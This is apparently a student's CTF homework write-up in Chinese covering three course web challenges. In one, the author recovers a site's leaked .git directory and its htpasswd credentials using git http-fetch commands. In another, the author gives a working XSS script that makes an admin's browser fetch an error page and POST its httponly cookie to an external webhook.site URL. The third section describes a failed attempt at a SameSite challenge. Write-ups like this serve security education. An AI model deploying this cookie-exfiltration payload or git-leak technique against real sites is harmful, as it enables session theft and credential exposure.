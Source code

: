 ###### tags: `ctf`
# Hw4 write_up

## ID
bruce30709
## The Stupid Content Tracker
本題主要的問題是git洩漏了資訊，所以先照著投影片的提示，用githack得出後端的directory架構。
![](https://i.imgur.com/dCDpMiA.png)
接著用dirserach再掃一次
![](https://i.imgur.com/2l1EZXK.png)
可以看出在logs/refs/heads/master內洩漏了git的commitid
![](https://i.imgur.com/9A6uyji.png)
所以就利用http-fetch到我們的網站，輸入我們得到的commitid，並對照著查看，即可看到洩露的htpasswd內容。
```
git init
git http-fetch -a 51d768c7d3eb3ea8104c2a76598b95702f4724a3 
https://edu-ctf.csie.org:44302/.git/
git checkout 51d768c7d3eb3ea8104c2a76598b95702f4724a3
git log -p
```
![](https://i.imgur.com/3MdrRi7.png)

最後照著使用者名稱和密碼登入後，即可在admin_portal_non_production/index.php得到flag~
![](https://i.imgur.com/gzl0YEu.png)



## Zero Note Revenge
本題是使用跟lab相同的方式，但因為是httponly的cookie，所以不會被js的document.cookie讀取到，故要先讓admin去點錯誤的note，這時候後端server的error就會有httponly的cookie出現在response中，最後只要把得到的response，再回傳回自己的webhook，即可拿到httponly的cookie。

在zero note中插入以下程式碼
![](https://i.imgur.com/c6zyDjw.png)

我是使用XHR的方法來傳送request。

```javascript=
<script>
var url = 'https://zero-note.edu-ctf.bookgin.tw:44301/note/aaa'; 

function load(url, callback) {
  var xhr = new XMLHttpRequest();
  var xhr1 = new XMLHttpRequest();
  xhr.onreadystatechange = function() {
    if (xhr.readyState === 4) {
		xhr1.open('POST',
        'https://webhook.site/5ce3641e-7136-40aa-967e-04415d0a77c4',true);
		xhr1.withCredentials = true;
		xhr1.send(xhr.response);
    }
  }

  xhr.open('GET', url, true);
  xhr.withCredentials = true;
  xhr.send('');
  
}
var a
load(url,a);

</script>
```
就可以得拿到flag了~

![](https://i.imgur.com/GyjgftE.png)

## Zero Meme

本題的cookie被加上了samesite的tag，其用意是要確保是在同源的網站，才能收到cookie，本題首先要解決XSS不能在server端的問題，有試過很多方法，但都沒能成功，只成功送出request並能夠讓admin在server端去點我們的連結，並收到來自server的response但可惜沒資訊，因為沒插入XSS拿cookie。

這是我嘗試的方法，經過測試是只有value attribute會點，而onfocus的fetch並不會執行。
![](https://i.imgur.com/T21brLz.png)
再送出form post
![](https://i.imgur.com/3PjKrCN.png)
只能得到空的回應
![](https://i.imgur.com/cTpwh9c.png)

只做到這裡，想不到解法。





